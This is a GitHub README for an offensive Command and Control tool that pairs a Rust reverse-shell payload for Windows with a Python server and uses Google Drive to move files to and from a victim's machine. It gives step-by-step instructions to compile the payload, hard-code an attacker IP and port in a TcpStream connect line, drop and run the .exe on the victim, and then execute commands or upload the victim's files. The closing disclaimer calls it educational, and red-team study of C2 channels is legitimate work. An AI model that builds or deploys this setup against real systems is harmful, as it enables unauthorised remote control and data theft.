


# Google Drive Command and Control (C2) System

This project provides a Command and Control (C2) system using the Google Drive API and a reverse shell payload written in Rust. The system allows uploading and downloading files to/from Google Drive from a victim's machine and executing commands on the target machine via a C2 server.

# Features
- Reverse shell payload written in Rust
- Upload and download files from the victim's machine to Google Drive
- Command execution on the victim's machine through a TCP connection
- Works with a Google Service Account for authentication
# Prerequisites
- Google Service Account: You need to create a Google Cloud project, enable the Google Drive API, and download the Service Account credentials (JSON).
- Rust Toolchain: Ensure you have Rust installed. If not, install it from Rust's official site.
## Dependencies 📦

This Rust project relies on the following dependencies:

- **[yup-oauth2](https://crates.io/crates/yup-oauth2)**  
  Handles authentication with Google OAuth2, allowing the C2 system to interact with Google Drive API using a Service Account.

- **[reqwest](https://crates.io/crates/reqwest)**  
  A popular HTTP client for Rust, used here for sending requests to the Google Drive API for file upload and download functionalities.

- **[tokio](https://crates.io/crates/tokio)**  
  An asynchronous runtime for Rust. It is required by some components of the project (like handling connections) to manage concurrency effectively.

- **[serde](https://crates.io/crates/serde)**  
  A framework for serializing and deserializing data structures in Rust. Essential for converting data to/from JSON format.

- **[serde_json](https://crates.io/crates/serde_json)**  
  A helper crate for `serde` to specifically handle JSON serialization and deserialization.

- **[mime](https://crates.io/crates/mime)**  
  Used for defining file types (MIME types) when uploading files to Google Drive via the API.

### Installing Dependencies
To install the necessary dependencies, simply include them in your `Cargo.toml`:

Make sure to install these by running:
```
cargo build
```
# How to use Rust payload?
1. Setup:
- Place the Google Service Account JSON file in the src/ directory of the Rust project (used in main.rs).
- Update main.rs with your Google Drive folder ID.
2. Compiling the Rust Payload
Before compiling, in src/main.rs (in ```payload``` folder), modify this:
- Set your Google Drive folder ID in ``` const FOLDER_ID: &str = "INPUT YOUR GGDRIVE ID"; ```
- Place your JSON file in /src and update the file name in ```let service_account_json = include_str!("yourjsonfilename.json");```
- Replace your attacker's machine ip + port number at ```let mut stream = TcpStream::connect("192.168.247.131:4444").expect("Failed to connect");```

# Compiling Rust payload
To compile the Rust payload, follow these steps:
```
cd payload
# Build for a Windows target
cargo build --target x86_64-pc-windows-gnu --release
```
<p align="center">
  
</p>
This will generate an .exe file in the target/x86_64-pc-windows-gnu/release folder.

3. Running the C2 Server
On your attacker machine (C2 server), you will run the following Python script to listen for incoming connections and send commands:
```
python3 C2_DriveAPI.py
```
4. Reverse Shell on Victim's Machine
After compiling, transfer the compiled .exe payload to the victim's machine and execute it.

5. Available Commands
- Execute commands: Any system command can be executed as follows:
```
<command>
```
For example:
```
dir
```
- Upload a file to Google Drive:
```
upload;<file_path>
```
For example:
```
upload;C:\Users\Administrator\Documents\example.txt
```
Download a file from Google Drive:
```
download;<file_id>;<local_file_path>
```
For example:
```
download;1vjkwFQJXMpVps5Zd2yD54syoXMEw98Fb;C:\Users\Administrator\Downloads\test.png
```
6. Example C2 Usage
   
  1/ Start the C2 server: Run the c2-server.py script on your attacker machine.
  
  2/ Run the payload: Drop and execute the compiled payload on the victim's machine.
  
  3/ Command execution: After the reverse shell is established, issue commands such as file upload, download, or OS command execution.
<p align="center">
  
</p>


## Inspiration & Acknowledgments 🙌
This project was inspired by the amazing article "[Hacking Tutorial: Google Sheets Command and Control (C2) Server](https://maxlikessecurity.medium.com/hacking-tutorial-google-sheets-command-and-control-c2-server-999e4dbc89fc)" by Max Likes Security.

Max's work provided the foundation and sparked my interest in building my own version of a Google Drive C2 system. His creativity and insights into using Google services for C2 operations were a huge source of inspiration. 🎉

If you're interested in exploring more about creative Command and Control systems, I highly recommend checking out Max's article!

# License
This project is licensed under the Apache License 2.0. See the [LICENSE](https://github.com/apache/.github/blob/main/LICENSE) for details.

# Disclaimer
This project is intended for educational purposes only. The author is not responsible for any misuse of this software. Use this project only on machines you have explicit permission to test.
